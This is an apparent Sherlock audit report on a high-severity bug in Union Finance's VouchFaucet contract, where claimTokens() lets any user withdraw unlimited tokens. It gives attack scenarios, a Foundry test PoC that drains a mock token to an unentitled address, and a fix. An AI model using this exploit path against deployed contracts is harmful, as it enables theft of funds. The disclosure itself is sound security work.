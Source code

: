 Blurry Heather Orca

High

# User without claimable token in VouchFaucet contract can claim

### Summary

The `claimTokens()` function in the VouchFaucet contract is meant to allow users with claimable token amout to claim ERC20 token up to the maximum amount set for that token. However, the function logic also allows for any user user without any claimable token amount to steal funds from the contract using this function. Alternatively, a user that satisfies `require(claimedTokens[token][msg.sender] <= maxClaimable[token], "amount>max");` could claim amounts more than their claimable token amount.

This vulnerability exists due to the require check in 
`require(claimedTokens[token][msg.sender] <= maxClaimable[token], "amount>max");`
Here there is a check for the user's claimable token amount to be less than or equals to the maximum claimable token amount. But there is no check to ensure that the amount parameter does not exceed the user's claimable token amount.

### Root Cause
https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93-#L97

In `VouchFaucet.sol:L93-L97 `
There is a missing check for amount parameter input to not exceed `claimedTokens[token][msg.sender]`

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

**Scenario 1: User with claimable token amount**

1. Assume Alice has claimable amount 1e18 of WETH, `maxClaimable[WETH]` is 1e18 WETH and the VouchFaucet contract holds 100e18 WETH
2. Alice calls the `claimTokens()` with inputs, WETH and 100e18
3. Since `claimedTokens[WETH][Alice]` == 1e18 and is <= 1e18, the require check passes.
4. Alice would receive 100E18 WETH exceeding her claimable amount.


**Scenario 2: User with no claimable token amount**

1. Assume Bob has no claimable amount of WETH, `maxClaimable[WETH]` is 1e18 WETH and the VouchFaucet contract holds 100e18 WETH
2. Bob calls the `claimTokens()` with inputs, WETH and 100e18
3. Since `claimedTokens[WETH][Bob]` == 0 and is <= 1e18, the require check passes.
4. Bob would receive 100E18 WETH without any prior claimable amount.

### Impact

The VoucherFaucet contract token funds can be stolen or drained by any user.

### PoC

Save this contract in the test/foundry/userManager folder and run `forge test --match-contract TestVouchFaucetPoC `

```solidity
pragma solidity ^0.8.0;

import {TestWrapper} from "./TestWrapper.sol";
import {VouchFaucet} from "union-v2-contracts/peripheral/VouchFaucet.sol";

contract TestVouchFaucetPoC is TestWrapper {
    VouchFaucet public vouchFaucet;

    uint256 public TRUST_AMOUNT = 10 * UNIT;

    address public constant BOB = address(0x021);

    function setUp() public {
        deployMocks();
        vouchFaucet = new VouchFaucet(address(userManagerMock), TRUST_AMOUNT);
    }

    function testConfig() public {
        assertEq(vouchFaucet.USER_MANAGER(), address(userManagerMock));
        assertEq(vouchFaucet.TRUST_AMOUNT(), TRUST_AMOUNT);
        assertEq(vouchFaucet.STAKING_TOKEN(), userManagerMock.stakingToken());
    }

    function testanyUserClaim() public {
        uint256 amount = 10 ether;
        erc20Mock.mint(address(vouchFaucet), amount);
        uint256 balBefore = erc20Mock.balanceOf(address(vouchFaucet));
        uint256 BOBbalBefore = erc20Mock.balanceOf(BOB);
        assertEq(BOBbalBefore, 0);
        vm.prank(BOB);
        vouchFaucet.claimTokens(address(erc20Mock), amount);
        uint256 balAfter = erc20Mock.balanceOf(address(vouchFaucet));
        assertEq(balBefore - balAfter, amount);
        assertEq(erc20Mock.balanceOf(BOB), amount);
    }
}
```

### Mitigation

In `VouchFaucet.claimTokens()` , apply a check to ensure the amount param value does not exceed `claimedTokens[token][msg.sender]`
e.g `require(claimedTokens[token][msg.sender] > 0 && amount <= claimedTokens[token][msg.sender], "exceeds claimable amount");`